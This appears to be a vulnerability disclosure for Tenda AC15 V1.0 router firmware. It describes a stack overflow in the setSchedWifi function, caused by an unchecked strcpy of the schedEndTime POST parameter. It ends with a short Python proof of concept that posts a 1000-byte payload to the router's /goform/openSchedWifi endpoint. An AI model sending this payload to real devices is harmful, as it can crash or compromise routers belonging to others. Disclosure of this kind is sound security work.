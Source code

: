 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `v20` variable receives the `schedEndTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedEndTime`, the statement `strcpy((char *)ptr + 10, v20);` can cause a buffer overflow. The user-provided `schedEndTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240305225509194](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225509194.png)

![image-20240305225530022](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225530022.png)

![image-20240314175401980](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314175401980.png)

![image-20240305225551018](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225551018.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedEndTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314175449987.png)
